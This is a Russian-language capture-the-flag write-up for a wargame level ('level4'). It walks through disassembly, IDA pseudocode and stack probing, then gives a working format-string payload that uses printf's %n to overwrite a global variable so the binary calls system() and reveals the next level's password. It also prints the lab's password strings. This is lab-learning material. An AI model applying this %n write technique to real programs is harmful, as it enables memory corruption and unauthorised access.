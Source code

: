 ## HowTo

```
su level4
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

### Инструменты:
- Ida Pro + hex rays
- peda (gdb + patterns)
- ltrace

**NB:** Для работы с файлом стягиваем его на локальную машину


### Анализ и ход решения

1. Базовый анализ
```
> gdb ./level4
> disass main
   0x080484a7 <+0>:	push   ebp
   0x080484a8 <+1>:	mov    ebp,esp
   0x080484aa <+3>:	and    esp,0xfffffff0
   0x080484ad <+6>:	call   0x8048457 <n>     <------- вызывается функция n()
   0x080484b2 <+11>:	leave  
   0x080484b3 <+12>:	ret    

> disass n
...
   0x08048488 <+49>:	call   0x8048444 <p>     <------- вызывается функция p()
...
   0x0804848d <+54>:	mov    eax,ds:0x8049810  <------- помещает значение в адрес 
   0x08048492 <+59>:	cmp    eax,0x1025544	 <------- сравнивает значение по адресу с заданным
...
   0x080484a0 <+73>:	call   0x8048360 <system@plt>	 <------- интересующий нас системный вызов 


> disass p
   0x08048444 <+0>:	push   ebp
   0x08048445 <+1>:	mov    ebp,esp
   0x08048447 <+3>:	sub    esp,0x18
   0x0804844a <+6>:	mov    eax,DWORD PTR [ebp+0x8]
   0x0804844d <+9>:	mov    DWORD PTR [esp],eax
   0x08048450 <+12>:	call   0x8048340 <printf@plt>     <------- вызывается printf()
   0x08048455 <+17>:	leave  
   0x08048456 <+18>:	ret 

```

2. С помощью Ida Pro получаем си-псевдокод `n()`
```
int n()
{
  int result; // eax
  char s; // [esp+10h] [ebp-208h]

  fgets(&s, 512, stdin);
  p(&s);
  result = m;
  if ( m == 16930116 )
    result = system("/bin/cat /home/user/level5/.pass");
  return result;
```

3. Общая логика исполнения:
- Из мейна вызывается функция `n()`, внутри которой вызывается `p()`, подключающая `printf()`
- В `n()` после вызова `p()` проверяется значение переменной `m` и сравнивается с заданным значением 
`hex: 0x16930116, dem: 16930116)`
- Наша задача подложить в `m` нужное значение, чтобы проверка `0x08048492 <+59>` в `n()` прошла успешно

4. Идея взлома - использовать модификатор `%n printf`, который имеет уязвимость и позволяет запускать произвольный код
5. Нам нужно найти в какой но счету аргумент `printf()` помещает значение, переданное при запуске 
6. Проводим эксперименты, чтобы посмотреть какой из аргументов будет отличаться при разном инпуте
```
> python -c 'print "aaaa" + "%x " * 15' - | ./level4
aaaab7ff26b0 bffff684 b7fd0ff4 0 0 bffff648 804848d bffff440 200 b7fd1ac0 b7ff37d0 61616161 25207825 78252078 20782520 

> python -c 'print "bbbb" + "%x " * 15' - | ./level4
bbbbb7ff26b0 bffff684 b7fd0ff4 0 0 bffff648 804848d bffff440 200 b7fd1ac0 b7ff37d0 62626262 25207825 78252078 20782520 
```

Находим отличие в `12-м` агрумента `(61616161 | 62626262)`

7. Нам нужно подложить нужное значение в адрес перемнной `m`
- нас интересует адрес `0x8049810 (mov eax,ds:0x8049810)`
```
> python 0x8049810.to_bytes(4, 'little')
b'\x10\x98\x04\x08'
```

- целевое значение, которое мы должны положить - `16930112 (cmp    eax,0x1025544)` - `4` байта на адрес
- используем пейлоад со спецификатором `%n` для исполнения и `%d` для динамического определения размера

7) Готовим пейлоад и запускаем
```
> python -c 'print "\x10\x98\x04\x08" + "%16930112d%12$n"' - | ./level4
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```